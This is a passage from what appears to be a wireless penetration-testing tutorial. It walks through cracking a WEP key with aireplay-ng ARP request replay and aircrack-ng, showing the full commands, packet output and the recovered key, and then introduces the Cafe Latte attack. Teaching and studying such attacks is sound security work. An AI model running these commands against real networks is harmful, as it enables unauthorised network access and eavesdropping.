 ```shell
Sent 3503 packets...(500 pps)

```

As this process runs, back in the `airodump-ng` output we can notice that the **Frames** count for the connected station increases. This is a positive sign that many new IVs are being generated.

We can wait until enough packets have been generated before attempting to crack the WEP key. Additionally, to further accelerate the IV generation process, we can use an ARP request replay attack in a new terminal. This approach will expedite the overall process.

```shell
aireplay-ng -3 -b C8:D1:4D:EA:21:A6 -h 7E:8D:FC:DD:D7:2C wlan0mon

The interface MAC (02:00:00:00:01:00) doesn't match the specified MAC (-h).
        ifconfig wlan0mon hw ether 7E:8D:FC:DD:D7:2C
22:14:47  Waiting for beacon frame (BSSID: C8:D1:4D:EA:21:A6) on channel 1
Saving ARP requests in replay_arp-0805-221447.cap
You should also start airodump-ng to capture replies.
Read 186176 packets (got 69052 ARP requests and 0 ACKs), sent 26781 packets...(499 pps)

```

Once we have generated enough packets, we can use `aircrack-ng` to crack the WEP key using the captured Initialization Vectors (IVs) stored in the `WEP-01.cap` file.

```shell
aircrack-ng -b C8:D1:4D:EA:21:A6 WEP-01.cap

Reading packets, please wait...
Opening WEP-01.cap
Read 251698 packets.

1 potential targets                                     Got 116410 out of 115000 IVs
Starting PTW attack with 116410 ivs.

                         KEY FOUND! [ 33:44:55:22:11 ]

Attack Decrypted correctly: 100% captured ivs.

```


# The Cafe Latte Attack

* * *

The [Cafe Latte](https://www.aircrack-ng.org/doku.php?id=cafe-latte) attack exploits how WEP clients handle reauthentication requests, enabling attackers to generate traffic and capture enough IVs to crack the WEP key without requiring traffic from the AP.

Both `fragmentation` and `Korek chop chop` attacks rely on traffic being generated in the network, such as clients browsing the internet, to capture and forge packets. Similarly, the `ARP request replay` attack requires valid ARP traffic in the network. If no traffic is being generated by clients, these attacks cannot be performed. However, in such cases, the `Cafe Latte` attack can directly target the clients instead.
